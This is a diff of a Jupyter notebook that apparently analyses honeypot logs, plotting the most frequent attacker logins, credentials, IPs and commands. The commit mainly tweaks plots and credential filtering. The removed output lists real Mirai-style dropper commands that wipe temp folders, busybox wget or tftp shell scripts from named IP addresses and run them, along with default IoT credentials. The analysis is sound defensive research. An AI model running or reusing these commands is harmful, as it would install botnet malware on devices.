

Before and after one commit to kahraman11/EOS2019, a Jupyter notebook: Block 2/Block 2.ipynb, the cells around one changed output. Drawn from its saved outputs; the diff is of its cells as text; code cells hidden in the pictures; blank space fills up the shorter version.

Commit message:
Updated plots

```diff
--- a/Block 2/Block 2.ipynb
+++ b/Block 2/Block 2.ipynb
@@ -70,17 +71,17 @@ def login_credentials(commandlist: list) -> str:
     Takes a pandas series with commands, and gives back `username:password`, where
     `username` is the first argument of the commandlist, and `password` is the second
     argument of the command list. This is because usually the first two arguments are
-    the login/pass
+    the login/pass. This function returns "invalid" if it detects an invalid user/pass combination
     """
     # If commandlist does not have enough arguments, return ""
     if len(commandlist) < 2:
-        return ""
+        return "invalid"
 
     # If the user/pass are longer than 10 chars, they are usually not usernames/password, so return ""
     if len(commandlist[0]) > 10:
-        return ""
+        return "invalid"
     if len(commandlist[1]) > 10:
-        return ""
+        return "invalid"
 
     # Return "username:password"
     return "{}:{}".format(commandlist[0], commandlist[1])
@@ -155,12 +156,12 @@ Reading file: ./data/cmds_sequence_2016-07-05.csv
 Reading file: ./data/cmds_sequence_2016-07-06.csv
 Reading file: ./data/cmds_sequence_2016-07-07.csv
 Reading file: ./data/cmds_sequence_2016-07-08.csv
-Reading file: ./data/cmds_sequence_2016-07-19.csv
-Reading file: ./data/cmds_sequence_2016-07-20.csv
-Reading file: ./data/cmds_sequence_2016-07-21.csv
-Reading file: ./data/cmds_sequence_2016-07-22.csv
-Reading file: ./data/cmds_sequence_2016-07-23.csv
-... (20 lines left out)
+Reading file: ./data/cmds_sequence_2016-07-09.csv
+Reading file: ./data/cmds_sequence_2016-07-10.csv
+Reading file: ./data/cmds_sequence_2016-07-11.csv
+Reading file: ./data/cmds_sequence_2016-07-12.csv
+Reading file: ./data/cmds_sequence_2016-07-13.csv
+... (30 lines left out)
 Reading file: ./data/cmds_sequence_2016-09-10.csv
 Reading file: ./data/cmds_sequence_2016-09-11.csv
 Reading file: ./data/cmds_sequence_2016-09-12.csv
@@ -173,7 +174,7 @@ src_ports_plot = False
 dst_ips_plot = False
 dst_ports_plot = False
 creds_plot = False
-commands_plot = True
+commands_plot = False
 
 # Logins plot
 if logins_plot:
@@ -227,7 +228,7 @@ if dst_ips_plot:
     values = dst_ips_top.tolist() + [dst_ips.iloc[4:].sum()]
 
     fig1, ax1 = plt.subplots()
-    ax1.pie(values, labels=labels, autopct='%1.2f%%', startangle=90)
+    ax1.pie(values, labels=labels, autopct='%1.2f%%', startangle=135, textprops={'fontsize': 7, 'size': 'smaller'}, labeldistance=1.5)
     ax1.axis('equal')  # Equal aspect ratio ensures that pie is drawn as a circle.
 
     plt.title("Most frequent destination IPs")
@@ -252,6 +253,9 @@ if dst_ports_plot:
 
 # Credentials plot
 if creds_plot:
+    # Drop invalid credentials
+    creds = creds.drop(labels=['invalid'])
+
     # Use the 8 most occuring credentials in the pie chart, and combine the other credentials under the label "other"
     creds = creds.sort_values(ascending=False)
     creds_top = creds.iloc[:8]
@@ -259,50 +263,37 @@ if creds_plot:
     values = creds_top.tolist() + [creds.iloc[8:].sum()]
 
     fig1, ax1 = plt.subplots()
     ax1.pie(values, labels=labels, autopct='%1.2f%%', startangle=90)
     ax1.axis('equal')  # Equal aspect ratio ensures that pie is drawn as a circle.
 
     plt.title("Most frequent used credentials")
     plt.savefig("creds_plot.png", dpi=400)
     plt.show()
 
 # Commands plot
 if commands_plot:
     # Use the 12 most occuring commands in the pie chart, and combine the other commands under the label "other"
     commands = commands.sort_values(ascending=False)
     commands_top = commands.iloc[:12]
 
     labels = commands_top.index.tolist() + ["other"]
     values = commands_top.tolist() + [commands.iloc[12:].sum()]
 
     for i in range(len(labels)):
         print(values[i], labels[i])
-        if len(labels[i]) > 30:
-            labels[i] = labels[i][:30] + "..."
+        if len(labels[i]) > 20:
+            labels[i] = labels[i][:20] + "..."
 
 
     fig1, ax1 = plt.subplots()
-    ax1.pie(values, labels=labels, autopct='%1.2f%%', startangle=90)
+    ax1.pie(values, labels=labels, autopct='%1.2f%%', startangle=90, textprops={'fontsize': 7, 'size': 'smaller'})
     ax1.axis('equal')  # Equal aspect ratio ensures that pie is drawn as a circle.
 
     plt.title("Most frequent used commands")
     plt.savefig("commands_plot.png", dpi=400)
     plt.show()
 # %% [output]
-3743428 sh
-3420638 cd /tmp || cd /var/run || cd /dev/shm || cd /mnt || cd /var;rm -f *;busybox wget http://5.196.199.225/bin.sh;sh bin.sh;busybox tftp -r bin2.sh -g 5.196.199.225;sh bin2.sh;busybox tftp 5.196.19 ...
-3262853 shell
-3178921 cd /tmp || cd /var/run || cd /dev/shm || cd /mnt || cd /var;rm -f *;busybox wget http://5.196.199.224/bin.sh;sh bin.sh;busybox tftp -r bin2.sh -g 5.196.199.224;sh bin2.sh;busybox tftp 5.196.19 ...
-3144952 root
-2763934 rm -rf /tmp/* /var/*;cd /tmp || cd /var/ || cd /dev/shm;busybox wget http://92.222.92.222/bin.sh;sh bin.sh;busybox ftpget -u anonymous -p anonymous 92.222.92.222 bin2.sh bin2.sh;sh bin2.sh;bus ...
-1825892 enable
-1734097 cd /tmp || cd /var/run || cd /dev/shm || cd /mnt || cd /var;rm -f *;busybox wget http://198.12.148.11/bin.sh;sh bin.sh;busybox tftp -r bin2.sh -g 198.12.148.11;sh bin2.sh;busybox tftp 198.12.1 ...
-1684048 /bin/busybox MIRAI
-1636588 system
-1260446 cd /tmp || cd /var/run || cd /dev/shm || cd /mnt || cd /var;rm -f *;busybox wget http://179.43.141.235/bi.sh || wget http://179.43.141.235/bi.sh || busybox tftp -r bi2.sh -g 179.43.141.235 ||  ...
-1040293 xc3511
-13877164 other
-[figure, old version]
+[figure, new version]
 # %%
 '''
 3743428 sh
```
Also changed, not shown: parts of 1 cell of this notebook, 3 other files.
